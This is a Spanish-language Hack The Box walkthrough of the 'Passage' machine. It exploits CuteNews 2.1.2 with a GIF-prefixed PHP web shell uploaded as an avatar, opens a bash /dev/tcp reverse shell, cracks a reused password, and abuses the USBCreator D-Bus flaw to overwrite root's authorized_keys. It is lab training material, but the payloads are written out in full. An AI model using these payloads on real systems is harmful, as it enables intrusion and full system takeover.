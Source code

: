 ```yaml
---
layout: single
title: Passage - Hack The Box
excerpt: "Para resolver ésta máquina nos aprovechamos qué la versión 2.1.2 del CuteNews es vulnerable a un RCE mediante una subida de archivo malicioso PHP, logrando así una Reverse Shell, para posterior a ello crackear un Hash encontrado en el código fuente, logrando así reusar la contraseña para un usuario válido del sistema, ya siendo éste usuario nos aprovechamos que tiene autorización SSH para conctarse como otro usuario del sistema, y ya como éste último usuario explotamos la vulnerabilidad del USB-Creator qué permite sobre-escribir cualquier archivo incluso sin tener permisos, para sobre-escribir la authorized_keys de Root, logrando acceso sin proporcionar credenciales."
date: 2023-12-01
classes: wide
header:
  teaser: /assets/images/htb-writeup-passage/passage_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - CuteNews Exploitation > RCE
  - hash cracking
  - password reuse
  - USBCreator D-Bus Privilege Escalation
  - abuse USBCreator to overwritten authorized_keys
---
```



Para resolver ésta máquina nos aprovechamos qué la versión 2.1.2 del CuteNews es vulnerable a un RCE mediante una subida de archivo malicioso PHP, logrando así una Reverse Shell, para posterior a ello crackear un Hash encontrado en el código fuente, logrando así reusar la contraseña para un usuario válido del sistema, ya siendo éste usuario nos aprovechamos que tiene autorización SSH para conctarse como otro usuario del sistema, y ya como éste último usuario explotamos la vulnerabilidad del USB-Creator qué permite sobre-escribir cualquier archivo incluso sin tener permisos, para sobre-escribir la authorized_keys de Root, logrando acceso sin proporcionar credenciales.

# PortScan
____

```
 # Nmap 7.93 scan initiated Fri Dec  1 10:05:34 2023 as: nmap -sCV -p22,80 -oN targeted 10.10.10.206
 Nmap scan report for 10.10.10.206
 Host is up (0.056s latency).
 
 PORT   STATE SERVICE VERSION
 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
 | ssh-hostkey: 
 |   2048 17eb9e23ea23b6b1bcc64fdb98d3d4a1 (RSA)
 |   256 71645150c37f184703983e5eb81019fc (ECDSA)
 |_  256 fd562af8d060a7f1a0a147a438d6a8a1 (ED25519)
 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
 |_http-title: Passage News
 |_http-server-header: Apache/2.4.18 (Ubuntu)
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 # Nmap done at Fri Dec  1 10:05:43 2023 -- 1 IP address (1 host up) scanned in 8.94 seconds
```


# WebSite
____
![](/assets/images/htb-writeup-passage/Pasted image 20231201114320.png)

Parece un sitio de noticias, así que opto por ver el código fuente, notando qué está corriendo un "**CuteNews**", que indagando un poco en internet es un gestor de noticias.
![](/assets/images/htb-writeup-passage/Pasted image 20231201114800.png)


Pruebo ir a esa redirección, pero sin sin ir al recurso "**rss.php**", descubriendo así el panel de autenticación.

![](/assets/images/htb-writeup-passage/Pasted image 20231201114925.png)

Logrando así ver la versión del "**CuteNews**", así que sabiendo la versión se me ocurre buscar posibilidades en internet...

Encontrándome así que esta versión es vulnerable a un **RCE** mediante la subida de un archivo malicioso **PHP** al avatar, usando los primeros **magick numbers** de un **GIF** para saltar la "**medida de seguridad**" de que se suban archivos maliciosos.

**PoC** de un script en python para hacerlo automatizado tan sólo indicando la URL [CuteNews 2.1.2 Remote Code Execution](https://packetstormsecurity.com/files/159134/CuteNews-2.1.2-Remote-Code-Execution.html)


En éste caso, estaré haciéndolo manual ya qué conozco como el script funciona & hace esta subida de archivo malicioso...

1. Creamos el archivo malicioso con extensión **.php** que subiremos como "avatar":
```php
GIF8;
<?php system($_GET['cmd']); ?>
```


2. Nos registramos en el "**CuteNews**", para irnos a la "**opciones personales**".

![](/assets/images/htb-writeup-passage/Pasted image 20231201115631.png)

3. Posterior a ello subimos en el avatar el archivo malicioso **php**, logrando evaditar la "medida de seguridad" para no subir código php.

4. Vamos al directorio de subidas de archivos, logrando ver el avatar que hemos subido.
![](/assets/images/htb-writeup-passage/Pasted image 20231201115917.png)

![](/assets/images/htb-writeup-passage/Pasted image 20231201115957.png)

Logrando así como vemos arriba llevar a cabo el **RCE** exitosamente,  así que procedo a entablarme una **Reverse Shell**.


1. Nos ponemos en escucha con **Netcat**.
```bash
nc -nlvp PORT
```

2. Nos mandamos la **Reverse Shell** desde la máquina por la URL.
```bash
bash -c 'bash -i >%26/dev/tcp/10.10.x.x/PORT 0>%261'
```

![](/assets/images/htb-writeup-passage/Pasted image 20231201120446.png)

Ya tan sólo quedaría darle Tratamiento TTY, sino sabes como [((LEE ESTE POST))](https://4uli.github.io/tratamiento-tty/)


# Escalada de Privilegios #1 
___

Lo primero qué hago, es ver cuales son los usuarios con directorios personales.
```bash
ls -la /home/
```
![](/assets/images/htb-writeup-passage/Pasted image 20231201120824.png)

Descubriendo qué existen dos usuarios con directorios, "**nadav**" & "**paul**", y a los cuales nisiquiera podemos entrar a sus directorios, así que empiezo buscando en el código fuente del servicio web **CuteNews**.

Descubriendo así en el directorio "/**cdata**" un subdirectorio interesante con nombre "**/users**", el cual contiene información de los usuarios en **base64**.
hallando allí un recurso llamado "lines", el cual contiene multiples cadenas en base64 aparentemente con información de todos los usuarios...
![](/assets/images/htb-writeup-passage/Pasted image 20231201121158.png)

Al ser varias cadenas, hago una iteración rápida para desconvertir de base64 cada linea del archivo "**lines**".
```bash
cat lines | grep -v php | while read line; do echo $line | base64 -d;echo; done
```

Logrando así ver información de los usuarios en texto claro.
![](/assets/images/htb-writeup-passage/Pasted image 20231201121424.png)

Excepto la contraseña, lo qué aparentemente está **hasheada**, en éste caso me interesaría **crackear** la qué es del usuario **Paul**, a ver sí se está reusando esa contraseña del "**CuteNews**" en el usuario válido del sistema.

copio el **hash**, y utilizo el recurso web para crackear [hashes.com](https://hashes.com/en/decrypt/hash), logrando así crackear la contraseña.
![](/assets/images/htb-writeup-passage/Pasted image 20231201121647.png)

y pruebo a reutilizarla como "**paul**"
![](/assets/images/htb-writeup-passage/Pasted image 20231201121712.png)

Ha funcionado, y hemos ingresado como Paul.

# Escalada de Privilegios #2 
___

Indagando en el directorio personal de "**paul**", descubrí que en el directorio **SSH** tiene como claves autorizadas la de **nadav** así que podríamos ingresar a éste usuario sin proporcionar contraseña.

![](/assets/images/htb-writeup-passage/Pasted image 20231201121842.png)

# Escalada de Privilegios #3 
___

Siendo "**nadav**", entro a su directorio personal, descubriendo qué está un "**.viminfo**" y procedo a ver qué contiene.
![](/assets/images/htb-writeup-passage/Pasted image 20231201122046.png)

Como vemos en el historial de **vim**  existe un **USBCreator** en la máquina.

Indago en internet en busca de posibles vulnerabilidades para escalar privilegios con ésto, encontrando así la vulnerabilidad **CVE-2015-3643**, la cual de forma resumida consiste en qué podemos **sobre-escribir** cualquier archivo existente aunque no tengamos permisos, así que se me ocurre sobre-escribir el "**authorized_keys**" de **Root** para ganar acceso mediante **SSH** sin proporcionar credenciales.

1. Creamos una copia de la clave pública de "**nadav**" en el directorio de la misma.
```bash
cp authorized_keys ~/authorized_keys
```

2. Sobre-escribimos la clave autorizada de Root, para poder acceder como "nadav" sin proporcionar credenciales.
```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/authorized_keys root/.ssh/authorized_keys true
```

![](/assets/images/htb-writeup-passage/Pasted image 20231201124305.png)

Logrando así ganar acceso como Root.
